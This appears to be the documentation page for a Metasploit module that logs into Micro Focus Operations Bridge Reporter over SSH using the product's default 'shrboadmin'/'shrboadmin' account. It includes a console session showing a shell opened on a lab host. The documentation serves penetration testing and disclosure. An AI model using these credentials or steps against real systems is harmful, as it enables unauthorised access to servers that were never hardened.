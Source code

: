 ## Vulnerable Application

This module abuses a known default password on Micro Focus Operations Bridge Reporter. The 'shrboadmin' user, installed
by default by the product has the password of 'shrboadmin', and allows an attacker to login to the server via SSH. This
module has been tested with Micro Focus Operations Bridge Manager 10.40. Earlier versions are most likely affected too,
but have not been tested with this module. Note that this is only exploitable in Linux installations.

## Verification Steps

1. Setup RHOST and run it!

## Scenarios

### Micro Focus Operations Bridge Manager 10.40

```
msf6 > use exploit/linux/ssh/microfocus_obr_shrboadmin
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > set rhosts 10.0.0.100
rhosts => 10.0.0.100
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > run

[*] 10.0.0.100:22 - Attempt to login to the server...
[+] 10.0.0.100:22 - Login Successful (shrboadmin:shrboadmin)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.1:35023 -> 10.0.0.100:22) at 2021-04-23 14:44:09 +0700

whoami
shrboadmin
id
uid=1001(shrboadmin) gid=1001(shrboadmin) groups=1001(shrboadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
